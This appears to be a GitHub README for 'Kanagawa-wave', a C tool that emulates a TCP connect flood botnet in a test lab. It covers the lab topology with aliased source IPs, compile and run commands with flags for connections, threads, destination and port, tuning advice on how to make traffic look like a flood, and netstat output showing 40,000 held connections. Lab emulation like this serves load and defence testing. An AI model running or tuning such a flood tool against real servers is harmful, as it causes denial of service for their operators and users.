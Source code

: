 #### Kanagawa-wave

TCP connect flood botnet attack emulation

#### Test lab

To emulate botnet attack from many ips, attcker's eth0 aliased with ips from 172.26.0.0/16 subnet (BLOCK I on pic. 1). Static route to 172.26.0.0/16 to attackers PC on router (BLOCK II on pic. 1). Router is in between attacker and web server (BLOCK III on pic. 1)

![scheme pic. 1](doc/test_lab_scheme.png)

_Pic. 1 test lab scheme_

#### Installation

On _attacker_ machine run: 
```
botnet@attacker: gcc -o kanagawa-wave kanagawa-wave.c -lpthread
botnet@attacker: ./kanagawa-wave -h
./kanagawa-wave [ -i epair0b -n 1 -c 1000 -t 10 -d 10.134.23.123 -p 443]
        -i interface name
        -n rotate this amount of source ips aliased to "-i interface"
        -c connections to hold
        -t threads
        -d destination ip
        -p port
        -r reconnect broken sockets [experimental]
```

#### Examples

##### Bad usage
```
./kanagawa-wave -i eth0 -n 40000 -c 40000 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 40k different src IPs to hold 40k connections. 1 TCPconn per IP is not TCP connect flood
```
##### Good usage
```
./kanagawa-wave -i eth0 -n 40000 -c 10 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 10 different src IPs to hold 40k connections. 4000 TCPconn per IP looks like TCP connect flood
```
##### POC

After launching ```kanagawa-wave``` check amount of TCP connections
on ```web server```(BLOCK III pic.1)
```
netstat -p tcp -ss | grep -i established
40000 connections in ESTABLISHED state
```

